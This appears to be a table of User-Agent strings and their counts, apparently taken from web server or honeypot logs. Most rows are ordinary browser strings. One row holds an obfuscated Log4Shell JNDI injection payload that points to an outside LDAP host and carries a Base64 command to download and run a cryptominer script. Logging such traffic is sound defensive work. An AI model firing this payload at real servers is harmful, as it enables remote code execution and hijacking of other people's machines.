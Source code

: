| 34 |                     3 | Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0                                                                                                                                                                                                                                                                                                                                                   |
| 35 |                     3 | Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36                                                                                                                                                                                                                                                                                                                              |
| 36 |                     2 | t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//46.8.226.196:3306/TomcatBypass/Command/Base64/ZXhwb3J0IEhPTUU9L3RtcDsgY3VybCAtcyAtTCBodHRwczovL2Rvd25sb2FkLmMzcG9vbC5vcmcveG1yaWdfc2V0dXAvcmF3L21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBMQ19BTEw9ZW5fVVMuVVRGLTggYmFzaCAtcyA0ODZ4cXc3eXNYZEt3N1JrVnpUNXRkU2lEdEU2c294VWRZYUdhR0UxR29hQ2R2QkY3clZnNW9NWEw5cEZ4M3JCMVdVQ1pySnZkNkFITUZXaXBlWXQ1ZUZOVXg5cG1HTg==}') |
| 37 |                     2 | Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.112 Safari/537.36                                                                                                                                                                                                                                                                                                                             |
| 38 |                     2 | python-requests/2.26.0                                                                                                                                                                                                                                                                                                                                                                                                             |
| 39 |                     2 | Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.84 Safari/537.36                                                                                                                                                                                                                                                                                                                           |
| 40 |                     2 | Hello, world                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 41 |                     2 | Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0                                                                                                                                                                                                                                                                                                                                                   |
| 42 |                     2 | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36                                                                                                                                                                                                                                                                                                                     |
| 43 |                     2 | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36                                                                                                                                                                                                                                                                                                                         |
| 44 |                     2 | Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_0) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.56 Safari/535.11                                                                                                                                                                                                                                                                                                             |
| 45 |                     2 | Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0                                                                                                                                                                                                                                                                                                |
| 46 |                     2 | Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/601.7.7 (KHTML, like Gecko) Version/9.1.2 Safari/601.7.7                                                                                                                                                                                                                                                                                                               |